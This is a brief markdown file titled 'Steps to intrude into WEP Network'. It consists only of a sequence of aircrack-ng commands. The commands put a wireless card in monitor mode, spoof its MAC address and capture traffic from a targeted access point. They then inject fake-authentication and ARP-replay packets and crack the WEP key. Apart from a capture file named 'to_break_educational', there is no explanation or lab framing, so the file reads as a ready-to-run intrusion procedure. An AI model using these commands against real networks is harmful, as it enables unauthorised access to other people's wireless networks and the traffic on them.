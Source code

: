 
# Steps to intrude into WEP Network

## [w1]
```
sudo airmon-ng start wlp2s0
```
## [w1]
```
sudo ifconfig wlp2s0mon down
```

## [w1]
```
sudo macchanger wlp2s0mon 12:34:45:67:89:01
```

## [w1]
```
sudo airodump-ng wlp2s0mon
```

## [w2]
```
sudo airodump-ng -c 6 -w to_break_educational --bssid E8:94:F6:F2:F1:E1 wlp2s0mon
```

## [w3]
```
sudo aireplay-ng -1 600 -a E8:94:F6:F2:F1:E1 -h 12:34:45:67:89:01 wlp2s0mon
```

## [w3]
```
sudo aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b E8:94:F6:F2:F1:E1 -h 12:34:45:67:89:01 wlp2s0mon
```

## [W4]
```
sudo aircrack-ng to_break_educational-01.cap
```
